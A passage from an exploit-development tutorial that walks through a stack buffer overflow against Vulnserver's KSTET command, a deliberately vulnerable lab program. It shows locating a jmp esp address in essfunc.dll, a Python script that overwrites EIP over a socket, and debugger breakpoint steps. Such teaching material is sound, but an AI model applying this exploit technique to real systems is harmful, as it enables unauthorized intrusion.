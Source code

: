 After hitting OK on the previous dialog, we will now see several instances of `jmp esp` that have been identified in the `.text` section of `essfunc.dll`. For this example, we will take the address of the first one (`0x625011AF`).

![](/assets/images/2019-06-21-using-socket-reuse-to-exploit-vulnserver/0005.jpg)

Now that we have an address of a `jmp esp` instruction that will take us to the 20 byte island after the EIP overwrite, we can replace `\x42\x42\x42\x42` in our exploit with said address (keep in mind, this needs to be in reverse order due to the use of little endian).

Our code will now look like this:

```python
import os
import socket
import sys

host = '10.2.0.129'
port = 9999

buffer =  'KSTET '
buffer += '\x41' * 70
buffer += '\xaf\x11\x50\x62'
buffer += '\x43' * 500

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))

s.recv(1024)
s.send(buffer)

s.close()
```

Before running the exploit again, a breakpoint should be placed at `0x625011af` (i.e. our `jmp esp` instruction). To do this, jump to the offset by either double clicking the result in the `References` tab, or use the `CTRL+G` shortcut to open the expression window and enter `0x625011af`.

Once here, toggle the breakpoint using the context menu or by pressing F2 with the relevant instruction highlighted.

![](/assets/images/2019-06-21-using-socket-reuse-to-exploit-vulnserver/0006.jpg)
